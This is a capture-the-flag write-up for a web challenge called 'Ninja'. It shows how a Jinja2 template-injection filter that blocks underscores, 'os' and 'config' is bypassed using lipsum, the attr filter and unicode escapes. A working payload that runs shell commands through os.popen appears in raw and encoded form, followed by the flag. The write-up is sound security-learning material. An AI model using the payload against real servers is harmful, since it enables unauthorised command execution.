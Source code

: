 # Ninja

Challenge's Desecription: Hey guys come checkout this website i made to test my ninja-coding skills.

# Vulnerability
First i thought This challenge will be XSS. But my one teammate told me that The challenge is SSTI jinja2 vulnerable. Thanks my mate. His discord(patrickaIi#7879)

# idea_for_solution

So we knew that is SSTI injection. By the problem is we can't inject any code. There is a blacklist. not allowed list:  _ ,config ,os, RUNCMD, base
F**k. They didn't allowed the os. This is a big problem. But we can bypass this with encoding. So the real problem is what encoding we need to use?. I used the unicode encoding to solve.

# Solution
I used the (lipsum) built in function of jinja2 and i used (attr) to bypass (underscores). and i used some other functions and i encode it with unicode.
So final payload is like this: {{lipsum|attr('\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f')|attr('\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f')('\u006f\u0073')|attr('\u0070\u006f\u0070\u0065\u006e')('cat flag.txt')|attr('read')()}}

I used this payload and GOt flag. Nice challenge.

# Payloads
original payload = lipsum|attr('__globals__'))|attr('__getitem__')('os')|attr('popen')('cat flag.txt')|attr('read')() And 
encoded payload = {{lipsum|attr('\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f')|attr('\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f')('\u006f\u0073')|attr('\u0070\u006f\u0070\u0065\u006e')('cat flag.txt')|attr('read')()}}

# Flag
flag{m0mmy_s33_1m_4_r34l_n1nj4}

# Sorry
I can't upload or put images here because of my laptop error. Sorry for this.
